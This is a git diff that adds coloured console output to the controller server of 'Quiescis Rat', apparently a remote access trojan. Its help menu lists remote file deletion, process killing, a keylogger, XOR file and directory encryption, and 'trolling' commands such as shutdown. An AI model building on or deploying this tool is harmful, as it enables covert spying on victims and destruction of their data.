

colorized update

diff --git a/server/server/Menu.cpp b/server/server/Menu.cpp
@@ -3,17 +3,24 @@
 #include "Menu.h"
 
 #ifndef  __linux__
+	#include <windows.h>
 	#pragma warning(disable: 4996)
+	HANDLE hConsole = GetStdHandle(STD_OUTPUT_HANDLE);
 #endif
 
 void PrintGreeting() {
-	std::cout << 
-		   "      * ***                                                                               \n"
-		<< "    *  ****                    *                                       *                  \n" 
-		<< "   *  *  ***                  ***                                     ***                 \n" 
-		<< "  *  **   ***                  *                                       *                  \n" 
-		<< " *  ***    *** **   ****                          ****                          ****      \n" 
-		<< "**   **     **  **    ***  * ***        ***      * **** *    ****    ***       * **** *   \n" 
+#ifndef __linux__
+	SetConsoleTextAttribute(hConsole, 10);
+#else
+	std::cout << green;
+#endif
+	std::cout <<
+		"      * ***                                                                               \n"
+		<< "    *  ****                    *                                       *                  \n"
+		<< "   *  *  ***                  ***                                     ***                 \n"
+		<< "  *  **   ***                  *                                       *                  \n"
+		<< " *  ***    *** **   ****                          ****                          ****      \n"
+		<< "**   **     **  **    ***  * ***        ***      * **** *    ****    ***       * **** *   \n"
 		<< "**   **     **  **     ****   ***      * ***    **  ****    * ***  *  ***     **  ****    \n"
 		<< "**   **     **  **      **     **     *   ***  ****        *   ****    **    ****         \n"
 		<< "**   **     **  **      **     **    **    ***   ***      **           **      ***        \n"
@@ -23,31 +30,85 @@ void PrintGreeting() {
 		<< "   ***     ***   ******* **    **    ****    * * **** *   ***     *    **    * **** *     \n"
 		<< "    ******* **    *****   **   *** *  *******     ****     *******     *** *    ****      \n"
 		<< "      ***   **                  ***    *****                *****       ***               \n"
-		<< "            **                                     -------------------------------------- \n"
-		<< "            *                                      |  Quiescis Rat                      | \n"
-		<< "           *                                       |  development by Nikait             | \n"
-		<< "          *                                        |  github: https://github.com/Nikait | \n"
+		<< "            **  ";
+#ifndef __linux__
+	SetConsoleTextAttribute(hConsole, 13);
+	std::cout << "                                   -------------------------------------- \n";
+	SetConsoleTextAttribute(hConsole, 10);
+	std::cout << "            *";
+	SetConsoleTextAttribute(hConsole, 13);
+	std::cout << "                                      |  Quiescis Rat                      | \n";
+	SetConsoleTextAttribute(hConsole, 10);
+	std::cout << "           *";
+	SetConsoleTextAttribute(hConsole, 13);
+	std::cout << "                                       |  development by Nikait             | \n";
+	SetConsoleTextAttribute(hConsole, 10);
+	std::cout << "          *";
+	SetConsoleTextAttribute(hConsole, 13);
+	std::cout << "                                        |  github: https://github.com/Nikait | \n"
 		<< "                                                   -------------------------------------- \n" << std::endl;
+	SetConsoleTextAttribute(hConsole, 7);
+#else
+	std::cout << purpure
+		<< "                                   -------------------------------------- \n"
+		<< green
+		<< "            *" << purpure << "                                      |  Quiescis Rat                      | \n"
+		<< green
+		<< "           *" << purpure << "                                       |  development by Nikait             | \n"
+		<< green
+		<< "          *" << purpure << "                                        |  github: https://github.com/Nikait | \n"
+		<< "                                                   -------------------------------------- \n" << st_end << std::endl;
+	
+#endif
 }
 
 void HelpMenu() {
-	std::cout <<  "\t\t     HELP [MENU]\n" << "\nbase:\n"
+#ifndef __linux__
+	std::cout << "\t\t     HELP [";
+	SetConsoleTextAttribute(hConsole, 12);
+	std::cout << "MENU";
+	SetConsoleTextAttribute(hConsole, 7);
+	std::cout << "]\n";
+	SetConsoleTextAttribute(hConsole, 10);
+	std::cout << "\nbase:\n";
+	SetConsoleTextAttribute(hConsole, 7);
+#else
+	std::cout << "\t\t     HELP [" << red << "MENU" << st_end << "]\n";
+	std::cout << green << "\nbase:\n" << st_end;
+#endif
+	std::cout
 		<< "-----------------------------------------------------\n"
 		<< "| [close]        - close connection                 |\n"
 		<< "| [pwd]          - path                             |\n"
 		<< "| [ls]           - list files and dirs              |\n"
 		<< "| [rm] [rmdir]   - delete file; delete directory    |\n"
 		<< "| [sysinfo]      - system information               |\n"
-		<< "-----------------------------------------------------\n"
-		<< "\nadvanced:\n"
+		<< "-----------------------------------------------------\n";
+#ifndef __linux__
+	SetConsoleTextAttribute(hConsole, 10);
+	std::cout << "\nadvanced:\n";
+	SetConsoleTextAttribute(hConsole, 7);
+#else
+	std::cout << green << "\nadvanced:\n" << st_end;
+#endif
+
+	std::cout
 		<< "-----------------------------------------------------\n"
 		<< "| [ps]           - process info                     |\n"
 		<< "| [kill]         - kill process                     |\n"
 		<< "| [keylogger]    - start keylogger                  |\n"
 		<< "| [cryptfile]    - encrypt file      with using XOR |\n"
 		<< "| [cryptdir]     - encrypt directory with using XOR |\n"
-		<< "-----------------------------------------------------\n"
-		<< "\ntrolling:\n"
+		<< "-----------------------------------------------------\n";
+#ifndef __linux__
+	SetConsoleTextAttribute(hConsole, 10);
+	std::cout << "\ntrolling:\n";
+	SetConsoleTextAttribute(hConsole, 7);
+#else
+	std::cout << green << "\ntrolling:\n" << st_end;
+#endif
+
+	std::cout
 		<< "-----------------------------------------------------\n"
 		<< "| [shutdown]     - shuting down                     |\n"
 		<< "| [error]        - print error                      |\n"
@@ -60,7 +121,12 @@ void timenow() {
 	tm* timeinfo = localtime(&seconds);
 	const char* format = "%H:%M:%S";
 	strftime(time_buf, 80, format, timeinfo);
-
+#ifndef __linux__
+	SetConsoleTextAttribute(hConsole, 10);
 	std::cout << time_buf;
+	SetConsoleTextAttribute(hConsole, 7);
+#else
+	std::cout << time_buf;
+#endif
 }
 

diff --git a/server/server/Server.cpp b/server/server/Server.cpp
@@ -46,6 +46,7 @@ int main() {
 	system("clear");
 #else
 	system("cls");
+	HANDLE hConsole = GetStdHandle(STD_OUTPUT_HANDLE);
 #endif
 
 	PrintGreeting();
@@ -68,8 +69,23 @@ int main() {
 	bind(sListen, (SOCKADDR*)&addr, sizeof(addr));
 	listen(sListen, SOMAXCONN);
 
-	std::cout << "["; timenow(); std::cout << "]" << " platform: windows\n";
-	std::cout << "["; timenow(); std::cout << "]" << " [start] server " << IP << ":" << PORT << std::endl;
+	std::cout << "["; timenow(); std::cout << "]" << " platform: ";
+	SetConsoleTextAttribute(hConsole, 3);
+	std::cout << "windows\n";
+	SetConsoleTextAttribute(hConsole, 7);
+	std::cout << "["; timenow(); std::cout << "]" << " [";
+	SetConsoleTextAttribute(hConsole, 4);
+	std::cout << "start";
+	SetConsoleTextAttribute(hConsole, 7);
+	std::cout << "] server ";
+	SetConsoleTextAttribute(hConsole, 10);
+	std::cout << IP;
+	SetConsoleTextAttribute(hConsole, 7);
+	std::cout << ":";
+	SetConsoleTextAttribute(hConsole, 12);
+	std::cout << PORT << std::endl;
+	SetConsoleTextAttribute(hConsole, 7);
+
 	std::cout << "["; timenow(); std::cout << "]" << " listening ...\n";
 	SOCKET conn = accept(sListen, (SOCKADDR*)&addr, &sizeofaddr);
 	
@@ -81,8 +97,8 @@ int main() {
 	addr.sin_addr.s_addr = inet_addr(IP);
 	bind(sock, (struct sockaddr*)&addr, sizeof(addr));
 	listen(sock, 1);
-	std::cout << "["; timenow(); std::cout << "]" << " platform: linux\n";
-	std::cout << "["; timenow(); std::cout << "]" << " [start] server " << IP << ":" << PORT << std::endl;
+	std::cout << "["; timenow(); std::cout << "]" << " platform:" << wh_blue << " linux\n" << st_end;
+	std::cout << "["; timenow(); std::cout << "]" << " [" << red << "start" << st_end << "] server " << green << IP << st_end << ":" << red << PORT << st_end << std::endl;
 	std::cout << "["; timenow(); std::cout << "]" << " listening ...\n";
 	int conn = accept(sock, (struct sockaddr *) NULL, NULL);
 	
@@ -96,7 +112,14 @@ int main() {
 		std::cout << "["; timenow(); std::cout << "]" << " Sucessful Connected!\ntype help to print HELP [MENU]\n";
 		while (true) {
 			memset(&buffer, 0x0, sizeof(buffer));
-			std::cout << "["; timenow(); std::cout << "]" << " command => ";
+			std::cout << "["; timenow(); std::cout << "]" << " command";
+#ifndef __linux__
+			SetConsoleTextAttribute(hConsole, 13);
+			std::cout << " => ";
+			SetConsoleTextAttribute(hConsole, 7);
+#else
+			std::cout << " => ";
+#endif
 			std::getline(std::cin, command);
 
 			if (command == "ls") {
@@ -205,7 +228,14 @@ int main() {
 
 			else if (command == "close") {
 				send(conn, command.c_str(), sizeof(command), NULL);
-				std::cout << "["; timenow(); std::cout << "]" << " close connection";
+				std::cout << "["; timenow(); std::cout << "]";
+#ifndef __linux__
+				SetConsoleTextAttribute(hConsole, 12);
+				std::cout << " close connection\n";
+				SetConsoleTextAttribute(hConsole, 7);
+#else
+				std::cout << red << " close connection\n" << st_end;
+#endif
 				return 1;
 			}
 

diff --git a/server/server/Menu.h b/server/server/Menu.h
@@ -10,4 +10,16 @@ void timenow();
 void HelpMenu();
 void PrintGreeting();
 
+#ifdef __linux__
+	#include <string>
+
+	// colours
+	static std::string wh_blue = "\033[1;36m";
+	static std::string purpure = "\033[1;35m";
+	static std::string blue    = "\033[1;34m";
+	static std::string green   = "\033[1;32m";
+	static std::string red     = "\033[1;31m";
+	static std::string st_end  = "\033[1;0m";
+#endif
+
 #endif
